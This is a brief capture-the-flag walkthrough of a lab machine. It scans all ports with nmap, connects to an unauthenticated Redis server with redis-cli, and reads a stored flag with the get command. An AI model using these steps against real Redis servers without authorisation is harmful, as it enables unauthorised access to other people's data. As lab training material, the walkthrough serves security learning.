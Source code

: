 1. **Scan all the ports (0-65535) and determine service and version of open ports**
```bash
nmap -p- -sV [target ip]
```
--> port 6379/tcp - open - redis


2. **Get into the redis server**
```bash
redis-cli -h [target ip]
```
--> **MACHINE PWNED!**


3. **Move inside the machine and Capture the flag** 
```shell
[target ip:6379]> info
	# Keyspace
	db0:keys=4,expires=0,avg_ttl=0

[target ip:6379]> keys*
	1) "numb" / 2) "stor" / 3) "flag" / 4) "temp"

[target ip:6379]> get flag
```
--> Transfer completed!